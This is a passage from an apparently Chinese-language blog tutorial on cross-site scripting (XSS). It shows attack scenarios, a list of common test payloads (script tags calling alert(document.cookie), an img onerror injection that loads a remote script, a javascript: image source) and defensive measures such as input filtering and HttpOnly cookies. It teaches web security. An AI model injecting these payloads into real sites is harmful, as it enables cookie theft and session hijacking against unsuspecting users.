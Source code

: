 {% alert info %}
但是这些并没有影响黑客对此漏洞的偏爱，原因只有一个：`XSS`几乎每个网站都存在。
{% endalert %}

#### 三、XSS 情景再现
为了更好的说明 `XSS`，我们来举一些小栗子：
1.在网页 `input` 或者 `textarea` 中输入 `<script>alert('xss')</script>` ，如果弹出 `alert` 对话框，则说明网站存在 `XSS` 漏洞。
{% alert danger %}
请注意：我们经常在一些博客网站或者论坛底下的留言框看到 `alert`，你以为是用户热情，其实他们是想搞你！
{% endalert %}

2.只要网页存在 `XSS` 漏洞，攻击者可能会嵌入 `JS` 脚本，如：
```js
<script scr="jartto_xss_js"></script> // 获取 cookie ，发送用户信息等
```

3.图片也可能会被利用，如：
```js
<img src="..." onerror="appendChild(createElement('script')).src='jartto_xss_js'" />
```

4.直接使用 `URL` 参数攻击，如：
```
https://www.baidu.com?jarttoTest=<script>alert(document.cookie)</script>
```
当然，这里需要注意的是，`URL` 也有可能是不知来历的二维码，所以请慎重扫码。

{% alert success %}
到这里你可能就了解了，`XSS` 的目的就是在目标页面执行不为人知的 JS 脚本，从而窥探用户隐私甚至财产。
{% endalert %}

#### 四、XSS 漏洞检测以及防御
通常有一些方式可以测试网站是否有正确处理特殊字符，具体如下：
```js
><script>alert(document.cookie)</script> 
='><script>alert(document.cookie)</script> 
"><script>alert(document.cookie)</script> 
<script>alert(document.cookie)</script> 
<script>alert(vulnerable)</script> 
%3Cscript%3Ealert('XSS')%3C/script%3E  
<script>alert('XSS')</script> 
<img src="javascript:alert('XSS')"> 
<img src="http://jartto.com/test.png" onerror="alert('XSS')"> 
<div style="height:expression(alert('XSS'),1)" />（这个仅限 IE 有效） 
```
[防御手段](https://mp.weixin.qq.com/s/bCVUhh1hyj5KftoYfi89aA)可以采取如下方式：
- 对所有用户提交内容进行可靠的输入验证，包括对 `URL`、查询关键字、`HTTP`头、`POST`数据等，仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交，对其他的一律过滤。
- 使用 `HTTP` 头指定类型，很多时候可以使用 `HTTP` 头指定内容的类型，使得输出的内容避免被作为 `HTML` 解析。
- 实现 `Session` 标记(session tokens)、`CAPTCHA` 系统或者 `HTTP` 引用头检查，以防功能被第三方网站所执行。
- 确认接收的的内容被妥善的规范化，仅包含最小的、安全的 `Tag` (没有 `JS` )，去掉任何对远程内容的引用(尤其是样式表和 `JS` )，使用 `HTTP only` 的 `Cookie`。

{% alert success %}
避免 `XSS` 的方法之一主要是将用户所提供的内容进行过滤，许多语言都有提供对 `HTML` 的过滤，看似很简单，实则很有效。
{% endalert %}
